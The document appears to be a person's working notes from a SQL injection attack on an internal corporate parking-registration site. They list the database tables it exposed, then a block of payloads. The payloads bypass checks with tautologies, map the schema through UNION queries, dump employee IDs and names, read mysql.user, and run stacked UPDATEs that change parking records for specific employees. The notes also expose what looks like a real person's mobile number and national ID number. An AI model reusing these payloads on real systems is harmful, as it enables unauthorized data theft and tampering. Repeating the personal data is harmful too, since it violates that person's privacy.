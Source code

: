 | ID                | Name   | Parking Area | regtime            |
|-------------------+--------+--------------+--------------------|
| Dependent_Reguser | userid |            5 | 1900/1/3           |
| facility_list     | userid |            5 | 1900/1/3           |
| Shuttlecock       | userid |            5 | 1900/1/3           |
| mentalhealth      | userid |            5 | 1900/1/3           |
| regHR             | userid |            5 | 1900/1/3           |
| Survey            | userid |            5 | 1900/1/3           |
| S_Reguser         | userid |            5 | 1900/1/3           |
| Combo_Reguser     | userid |            5 | 1900/1/3           |
| Question          | userid |            5 | 1900/1/3           |
| person            | userid |            5 | 1900/1/3           |
| L_Reguser         | userid |            5 | 1900/1/3           |
| HL_Reguser        | userid |            5 | 1900/1/3           |
| free_2014         | userid |            5 | 1900/1/3           |
| exam              | userid |            5 | 1900/1/3           |
| A_reguser         | userid |            5 | 1900/1/3           |
| friend            | userid |            5 | 1900/1/3           |
| Product           | userid |            5 | 1900/1/3           |
| Tea_reguser       | userid |            5 | 1900/1/3           |
| QualityDay        | userid |            5 | 1900/1/3           |
| photo_library     | userid |            5 | 1900/1/3           |
| Sustainability    | userid |            5 | 1900/1/3           |
| Photo_Result      | userid |            5 | 1900/1/3           |
| car_info          | userid |            5 | 1900/1/3           |
| QualityDay_List   | userid |            5 | 1900/1/3           |
| reguser           | userid |            5 | 1900/1/3           |
| teched            | userid |            5 | 1900/1/3           |
| Dkmo_list         | userID |            5 | 1900/1/3           |
| BYD_reguser       | userid |            5 | 1900/1/3           |
| BYD_reg           | userid |            5 | 1900/1/3           |
| tb_lunch          | userid |            5 | 1900/1/3           |
| book_info         | userid |            5 | 1900/1/3           |
| C_reguser         | userid |            5 | 1900/1/3           |
| Travler           | userid |            5 | 1900/1/3           |
| ACI_reg           | userid |            5 | 1900/1/3           |
| news_result       | userid |            5 | 1900/1/3           |
| event_reg         | userid |            5 | 1900/1/3           |
| fin               | userid |            5 | 1900/1/3           |
| result            | userid |            5 | 1900/1/3           |
| FASTtrack         | userid |            5 | 1900/1/3           |
| Facility          | userid |            5 | 1900/1/3           |
| Video             | userid |            5 | 1900/1/3           |
| ad_class          | userid |            5 | 1900/1/3           |
| Employee_list     | userid |            5 | 1900/1/3           |
| UserSheet         | UserId |            5 | 1900/1/3           |
| Facility_Result   | userid |            5 | 1900/1/3           |
| BYD               | UserID |            5 | 1900/1/3           |
| Badges            | userid |            5 | 1900/1/3           |
| T_Know            | userid |            5 | 1900/1/3           |
| Developer         | userid |            5 | 1900/1/3           |
| hands             | userid |            5 | 1900/1/3           |
| T_result          | userid |            5 | 1900/1/3           |
| parking_permit    | userid |            5 | 1900/1/3           |
| Employee          | userid |            5 | 1900/1/3           |
| free              | userid |            5 | 1900/1/3           |
| Rope              | userid |            5 | 1900/1/3           |
| ad_class2         | userid |            5 | 1900/1/3           |


| Facility | id           | 5 | 1900/1/3 |
| Facility | userid       | 5 | 1900/1/3 |
| Facility | username     | 5 | 1900/1/3 |
| Facility | Mobile       | 5 | 1900/1/3 |
| Facility | Ext          | 5 | 1900/1/3 |
| Facility | ownership    | 5 | 1900/1/3 |
| Facility | relationship | 5 | 1900/1/3 |
| Facility | regtime      | 5 | 1900/1/3 |
| Facility | logintime    | 5 | 1900/1/3 |
| Facility | isdelete     | 5 | 1900/1/3 |
| Facility | ParkingArea  |   |          |

http://slc.pvgl.sap.corp:1080/register/facility/employee/index.asp

#+BEGIN_SRC sql
  insert into <TABLE>
          ('UserID', 'L_Name', 'Mobile', 'Ext', 'ParkingArea')
   values ('I046147', 'VINCENT', '13761506775', '320684198405243176',
   '\\' SELECT PVG06')

   I074192' or UserID = 'I068150s
   1' or '1' = '1

   i046147' or UserId = (Update employee set L_Name = 'Vince' where UserID = 'i046147') or '1' = '1;

   select * from employee where UserId like "%&UserID%"

   select * from employee where UserId like '%I074193%' or UserID = 'i074192' /* %'

   I074193' or UserID = 'i074192' -- 

   I074192' UNION ALL select 1, null, null from information_schema.columns --

   I074192' UNION ALL select 1, 'a', 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 --

   I058712' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'Facility_Result' --
   
   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'parking_permit' --

   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'C_reguser' --
   
   I058712' UNION ALL select top 192 1, userid, username, 'c', 'd', 'e', 'f', regtime, 3, 4, ParkingArea from Facility where ParkingArea = 'PVG06' --
I058808 

   I058712' UNION ALL select 1, userid, vote, 'c', 'd', 'e', 'f', logintime, 3, 4, 5 from Facility_Result --

   I058712'; Update Facility set logintime = '2016/1/13 14:30:01', regtime = '2016/1/13 14:33:03', ParkingArea='PVG06' where userid = 'I046147' --

I058712'; Update Facility set logintime = '2016/1/19 11:29:11', regtime = '2016/1/19 11:31:23', ParkingArea='PVG06' where userid = 'I302650' --

I058712'; Update Facility set logintime = '2016/1/13 14:32:23', regtime = '2016/1/13 14:34:41', ParkingArea='PVG06' where userid = 'I067652' --

   I074192' UNION ALL select 1, Host, 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 from mysql.user --
#+END_SRC

